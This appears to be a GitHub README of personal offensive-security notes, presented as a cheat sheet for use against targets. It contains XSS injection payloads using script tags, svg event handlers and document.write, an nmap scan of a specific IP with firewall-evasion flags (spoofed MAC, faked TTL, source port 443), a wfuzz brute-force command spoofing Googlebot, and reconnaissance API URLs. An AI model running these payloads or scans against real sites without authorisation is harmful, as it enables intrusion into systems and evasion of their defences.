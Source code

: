 <br>
<h1 align="center"> Offensive Security MISC Anotations and Payloads</h1> <br>

<br>
<br>


# xss
- Personally created XSS payloads <br>

<br>

## Danger zone! <br>
> Danger zone is the area which xss payloads can be OR will be harmfull to a web application <br>
> so, do no use them unless you're sure the web app will not be damaged! <br>

<br>

> Do not use these payloads in a random or unauthorized web site, I do not take any resposibility <br>
> to any person who decide to execute those on random places, you have been warned!

## document.write <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onerror="alert(document.write(1337))">
```
<br>

## document.domain <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onload="alert(document.domain)">
```

<br>

<hr>

<br>

# Tools

# Nmap
- Nmap is a network discovery and security auditing.
- It can also be used for web application.
- Replace the API-KEY with your ![Shodan](https://www.shodan.io) API Key

```sh
sudo nmap --randomize-hosts -Pn 185.28.21.231 --script shodan-api --script-args shodan-api.apikey=API-KEY -v -sS --open --reason --ttl=128 -sV --top-ports=20 --min-rate=2000 -T3  --spoof-mac=google -g443 --script="not intrusive" -oN resultados.txt
```

## Explanation:
--randomize-hosts      :: Tells Nmap to shuffle each group of up to 16384 hosts before it scans them. <br>
-Pn                    :: Skips the host discovery stage altogether. <br>
--script *             :: Invoking the script to Shodan API. <br>
-v                     :: Verbose mode. <br>
-sS                    :: TCP SYN scan. <br>
--open                 :: Show open ports. <br>
--reason               :: Shows the reason each port is set to a specific state and the reason each host is up or down. <br>
--ttl=128              :: Tricks the Target/Firewalls of thinking the user is scanning using Windows OS. <br>
-sV                    :: -sS added with -sV means that in case a port doesn't respond with SYN/ACK, Nmap will close the conection with RST. <br>

<br>

# wFuzz
- wFuzz is a web application fuzzing tool <br>

<br>

##  Ultimate wFuzz command v1 <br>

```sh
sudo wfuzz --hc 404,400,302,301 -u https://site.com/FUZZ -w WORDLIST.txt -H "User-Agent: Googlebot-News" -t 50
```

<br>

<hr>

<br>

# APIs
- Apis for any kinds of target reconnaissance.
- Can be also used with cURL for automatic tool making
- Switch the URL with your target's domain or ip.

<br>

## DNS Look up <br>

> https://api.hackertarget.com/dnslookup/?q=URL

<br>

## HTTP Headers <br>

> https://api.hackertarget.com/httpheaders/?q=URL

<br>

## Host Search <br>

> https://api.hackertarget.com/hostsearch/?q=URL

<br>

## Crawlers <br>
- Alien Vault limit parameter can be set to any integer number,
- as well as the page parameter.
- Common Crawl outputs with json format.

> https://otx.alienvault.com/api/v1/indicators/hostname/URL/url_list?limit=50&page=1
> https://index.commoncrawl.org/CC-MAIN-2021-43-index?url=URL&output=json
